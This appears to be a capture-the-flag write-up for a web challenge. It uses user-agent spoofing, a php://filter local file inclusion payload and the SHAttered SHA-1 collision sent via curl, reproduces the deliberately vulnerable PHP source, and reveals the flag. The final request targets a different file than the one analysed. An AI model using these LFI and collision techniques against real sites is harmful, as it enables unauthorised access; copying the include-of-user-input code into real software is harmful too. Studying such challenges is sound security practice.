 # beep beep
You are given to analyse a seemingly safe site.
Intially there is nothing on the site. But when you read the source it says only bots can read it. So change your user agent to `bot` or some google bot's useragent and visit the site. You now see the page containing information about the leaders of the bot attack. There is nothing on source.
When robots.txt is viewed there is binary data when decoded give the text "Humans think that we cannot read this file. lol. But anyways guys you know the format for posting to this page to get cooradinates to attack and update attack status. We will win this war." So we know we need to post. But we do not know the parameters. On exploring more on site we observe that the url `http://localhost:8000/index.php?botdetails=spot.html`. So the php is including the file and displaying it. So we try LFI. Common payloads like `../../../../../etc/passwd` don't work and give response as "Don't try to read secrets on my mind". So they don't work.   
But on using a php wrapper function filter we will try to include the file. Set bot details parameter as `botdetails=php://filter/convert.base64-encode/resource=index.php`. we get base64 encoded data. 
On decoding it we get:
```php
<?php
error_reporting(0);

require "../shabot.php";

if(stripos($_SERVER['HTTP_USER_AGENT'], "bot" )===false) {
    include ("humans.html");
    die();
}


if(isset($_GET["botdetails"])){

    if( isSafe($_GET["botdetails"])){
        include($_GET["botdetails"]);
        die();
    }
    else {
        echo "Don't try to read secrets on my mind";
    }
}

//only true bots can bypass this as no human can compute it
if( isset($_POST["provebot1"]) && isset($_POST["provebot2"]) ){

    //   echo $_POST["provebot1"] . $_POST["provebot2"] ;
   
    $safe1 = (string) $_POST["provebot1"];
    $safe2 = (string) $_POST["provebot2"];
    if($safe1!==$safe2 && md5(sha1($_POST["provebot1"])) === md5(sha1($_POST["provebot2"]))){
        echo json_encode($coordinates);
        die();
    }
}
?>

<?php require("templates/header.php") ?>

<body style="background: black">
    <div class="container text-center my-5">
        <h1 style="color: red">Leaders </h1>
    </div>    

    <div class="container justify-content-between" style="border: 1px solid black; color: white">
        <img src="images/spot.png" width="450" height="300">
        <h3> <a href="<?php echo $_SERVER["PHP_SELF"] . "?botdetails=spot.html" ?>"> Spot </a> </h3>
        <p>Lead spy</p>
    </div>

    <div class="container justify-content-between" style="border: 1px solid black; color: white">
        <img src="images/handle.png" width="450" height="300">
        <h3> <a href="<?php echo $_SERVER["PHP_SELF"] . "?botdetails=handle.html" ?>"> Handle </a> </h3>
        <p>Lead Supplies Manager</p>
    </div>

    <div class="container justify-content-between" style="border: 1px solid black; color: white">
        <img src="images/atlas.png" width="450" height="300">
        <h3> <a href="<?php echo $_SERVER["PHP_SELF"] . "?botdetails=atlas.html" ?>"> Atlas </a> </h3>
        <p>Lead fighter </p>
    </div>
<?php require("templates/footer.php") ?>
```
We found the secret parameters for routing. We need to find a md5 collision. Since there is `sha1()` inside `md5()` we can try sha1 collision. There was a hash collision detected in 2017. On sending the first 320 bytes of the shattered pdf we recover the flag.  

To get 320 bytes:

```bash
xxd -l 320 shattered-1.pdf | xxd -r > provebot1.dat
```

To make the request:
```bash
curl 'http://localhost:8000/testsha.php' --header 'Host: localhost:8000' --post301 --data-urlencode provebot1@provebot1.dat --data-urlencode provebot2@provebot2.dat 
```

We get the response:
```
{"lat":12.991375324106727,"lon":80.21656349301354,"flag":"p_ctf{4r3_y0u_r3a11y_4_r0b0t_?_y35}"}
```
Flag is:
```
p_ctf{4r3_y0u_r3a11y_4_r0b0t_?_y35}
```